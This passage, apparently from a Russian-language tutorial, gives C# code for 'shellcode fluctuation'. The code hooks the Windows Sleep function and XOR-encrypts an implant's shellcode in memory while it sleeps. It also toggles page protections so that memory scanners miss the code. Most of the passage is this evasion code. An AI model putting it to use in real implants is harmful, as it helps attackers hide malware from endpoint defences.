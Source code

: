 ```cs
        sleepOriginAddress,
        (uint)trampoline.Length))
    {
        flushed = true;
    }

    Win32.VirtualProtect(
        sleepOriginAddress,
        (uint)trampoline.Length,
        oldProtect,
        out _);

    return hooked && flushed;
}
```

### FluctuateShellcode.SleepDetour

Сердце нашей флуктуации — измененная функция `Sleep`, которая будет перехватывать управление в момент «засыпания» агента. По содержимому тела функции понятно, что она делает.

```cs
void SleepDetour(uint dwMilliseconds)
{
    DisableHook();
    ProtectMemory(0x04); // 0x04 = PAGE_READWRITE
    XorMemory();

    sleepOrig(dwMilliseconds);

    XorMemory();
    ProtectMemory(0x20); // 0x20 = PAGE_EXECUTE_READ
    EnableHook();
}
```

### Конструктор и деструктор

Так как мы решили пользоваться преимуществами ООП в C#, в конструкторе мы реализуем вычисление необходимых адресов и содержимого, находящегося по этим адресам:

```cs
public FluctuateShellcode(IntPtr shellcodeAddr, int shellcodeLen)
{
    // Получаем адрес оригинальной функции Sleep
    sleepOriginAddress = Win32.GetProcAddress(Win32.LoadLibrary("kernel32.dll"), "Sleep");
    // Инициализируем делегат для возможности обращения к этой функции по ее адресу
    sleepOrig = (Sleep)Marshal.GetDelegateForFunctionPointer(sleepOriginAddress, typeof(Sleep));

    // Бэкапим первые 16 байт оригинальной функции Sleep
    Marshal.Copy(sleepOriginAddress, sleepOriginBytes, 0, 16);

    // Получаем адрес метода SleepDetour, которым будет пропатчен шаблон трамплина
    var sleepDetour = new Sleep(SleepDetour);
    sleepDetourAddress = Marshal.GetFunctionPointerForDelegate(sleepDetour);
    gchSleepDetour = GCHandle.Alloc(sleepDetour);

    using (var ms = new MemoryStream())
    using (var bw = new BinaryWriter(ms))
    {
        // Составляем little-endian адрес sleepDetourAddress в виде байтового массива
        bw.Write((ulong)sleepDetourAddress);
        sleepDetourBytes = ms.ToArray();
    }

```